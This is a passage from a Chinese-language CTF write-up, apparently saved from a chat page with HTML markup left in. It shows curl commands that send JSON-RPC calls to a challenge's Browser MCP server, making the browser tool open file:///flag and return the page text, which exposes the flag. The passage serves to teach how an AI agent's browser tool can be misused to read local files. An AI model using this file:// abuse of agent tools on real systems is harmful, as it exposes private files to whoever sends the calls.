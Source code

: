 ### 4️⃣ 导航到 flag 文件

<pre class="overflow-visible!" data-start="3019" data-end="3300"><div class="contain-inline-size rounded-2xl relative bg-token-sidebar-surface-primary"><div class="sticky top-9"><div class="absolute end-0 bottom-0 flex h-9 items-center pe-2"><div class="bg-token-bg-elevated-secondary text-token-text-secondary flex items-center gap-4 rounded-sm px-2 font-sans text-xs"></div></div></div><div class="overflow-y-auto p-4" dir="ltr"><code class="whitespace-pre! language-bash"><span><span>curl -X POST </span><span>"http://challenge.ilovectf.cn:30439/messages/?session_id=$SESSION_ID</span><span>" \
  -H </span><span>"Content-Type: application/json"</span><span> \
  -d </span><span>'{"jsonrpc":"2.0","id":44,"method":"tools/call","params":{"name":"browser_navigate","arguments":{"page_id":"page1","url":"file:///flag"}}}'</span><span>
</span></span></code></div></div></pre>

* **目的**：让页面打开 flag 文件
* **为什么**：Browser MCP 可以访问 `file://`，这是拿 flag 的关键

---

### 5️⃣ 获取页面文本（flag）

<pre class="overflow-visible!" data-start="3407" data-end="3685"><div class="contain-inline-size rounded-2xl relative bg-token-sidebar-surface-primary"><div class="sticky top-9"><div class="absolute end-0 bottom-0 flex h-9 items-center pe-2"><div class="bg-token-bg-elevated-secondary text-token-text-secondary flex items-center gap-4 rounded-sm px-2 font-sans text-xs"></div></div></div><div class="overflow-y-auto p-4" dir="ltr"><code class="whitespace-pre! language-bash"><span><span>curl -X POST </span><span>"http://challenge.ilovectf.cn:30439/messages/?session_id=$SESSION_ID</span><span>" \
  -H </span><span>"Content-Type: application/json"</span><span> \
  -d </span><span>'{"jsonrpc":"2.0","id":50,"method":"tools/call","params":{"name":"browser_get_text","arguments":{"page_id":"page1","selector":"body"}}}'</span><span>
</span></span></code></div></div></pre>

* **selector="body"** → 获取页面 body 文本
* **返回结果**：

<pre class="overflow-visible!" data-start="3738" data-end="3824"><div class="contain-inline-size rounded-2xl relative bg-token-sidebar-surface-primary"><div class="sticky top-9"><div class="absolute end-0 bottom-0 flex h-9 items-center pe-2"><div class="bg-token-bg-elevated-secondary text-token-text-secondary flex items-center gap-4 rounded-sm px-2 font-sans text-xs"></div></div></div><div class="overflow-y-auto p-4" dir="ltr"><code class="whitespace-pre! language-json"><span><span>{</span><span>"text"</span><span>:</span><span> </span><span>"flag{e3c341e0-298c-4b18-b33d-bb121e7051fd}"</span><span>,</span><span> </span><span>"selector"</span><span>:</span><span> </span><span>"body"</span><span>}</span><span>
</span></span></code></div></div></pre>

* **为什么**：浏览器已经打开 flag 文件，body 内就是 flag 内容

---

### 6️⃣ 可选操作（加强理解）

* **执行 JS 获取 HTML 内容**：

<pre class="overflow-visible!" data-start="3920" data-end="3979"><div class="contain-inline-size rounded-2xl relative bg-token-sidebar-surface-primary"><div class="sticky top-9"><div class="absolute end-0 bottom-0 flex h-9 items-center pe-2"><div class="bg-token-bg-elevated-secondary text-token-text-secondary flex items-center gap-4 rounded-sm px-2 font-sans text-xs"></div></div></div><div class="overflow-y-auto p-4" dir="ltr"><code class="whitespace-pre! language-bash"><span><span>{</span><span>"script"</span><span>:</span><span>"document.documentElement.outerHTML"</span><span>}
</span></span></code></div></div></pre>
